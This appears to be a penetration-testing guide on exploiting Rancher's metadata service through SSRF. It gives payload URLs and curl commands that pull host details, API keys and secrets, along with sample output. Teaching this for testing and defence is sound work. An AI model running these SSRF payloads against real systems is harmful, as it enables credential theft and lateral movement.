 ```yaml
---
title: Exploiting Rancher Metadata Service via SSRF
description: Learn how to exploit Rancher metadata services through SSRF for sensitive
  data extraction and potential lateral movement.
keywords:
- Rancher
- SSRF
- metadata service
- container orchestration
- data extraction
- vulnerability exploitation
- Rancher API
- sensitive data
- Rancher security
---
```


# Rancher

## Context

In this article, we explore the exploitation of Rancher's metadata service via Server-Side Request Forgery (SSRF) attacks. The goal is to extract sensitive data that can potentially allow further lateral movement or privilege escalation. To fully benefit from this guide, readers should have a good understanding of HTTP protocol mechanics, container orchestration fundamentals, general metadata service exploitation, and SSRF attack principles.

## Theory

### Rancher Metadata Service Architecture

Rancher's metadata service provides vital runtime information about containers, hosts, and services to workloads within a Rancher-managed ecosystem. The service is accessible over HTTP at `http://rancher-metadata/` from all containers managed by Rancher. This architecture allows containers to query this metadata API for valuable information regarding environment, service, and credentials.

### Rancher Metadata API Structure and Access

The Rancher metadata API is versioned, such as `/2015-07-25/`, offering various structured metadata endpoints. An attacker can exploit these endpoints via SSRF techniques to access data. Within the container network, these metadata services lack authentication and network isolation, making them a prime vulnerability point for malicious activity.

### Sensitive Data Exposure via Rancher Metadata

The metadata exposed by the Rancher service can include API keys, service credentials, environment variables, and orchestration details, all of which are critical information. Through successful SSRF exploitation, an attacker can extract such data, paving the way for lateral movement within the network or gaining escalated privileges.

## Practice

### SSRF to Rancher Metadata Service for Sensitive Data Extraction

- **Identify Vulnerable Point**: Begin by identifying an SSRF injection point in a web application hosted within a Rancher-managed container. This is often found as a user-controllable URL parameter or HTTP header capable of triggering server-side HTTP requests.

- **Payload Targeting Host Information**:
  ```http
  http://rancher-metadata/2015-07-25/self/host
  ```

  **Command Execution**:
  ```bash
  curl -s 'http://<vulnerable-app>/fetch?url=http://rancher-metadata/2015-07-25/self/host'
  ```
  When executed, this command exploits the SSRF vulnerability to relay a request to the Rancher metadata service.

  **Expected Output**:
  ```json
  {
      "name": "host1",
      "hostname": "host1.example.com",
      "labels": { ... },
      ...
  }
  ```

- **Payload Targeting Service Metadata**:
  ```http
  http://rancher-metadata/2015-07-25/self/service/metadata
  ```

  **Command Execution**:
  ```bash
  curl -s 'http://<vulnerable-app>/fetch?url=http://rancher-metadata/2015-07-25/self/service/metadata'
  ```
  This command is used to further extract service metadata through the SSRF vulnerability.

  **Expected Output**:
  ```json
  {
      "api_key": "RANCHER_API_KEY",
      "secret": "RANCHER_SECRET",
      ...
  }
  ```

These commands demonstrate how an attacker can utilize SSRF to access Rancher's metadata, thereby retrieving sensitive details like API keys or secrets, potentially leading to further network compromise.

## Tools

- **curl**
- **Burp Suite**

Using these tools, a skilled practitioner can identify and exploit SSRF vulnerabilities effectively within Rancher-managed environments, accessing metadata that could be critical for further actions.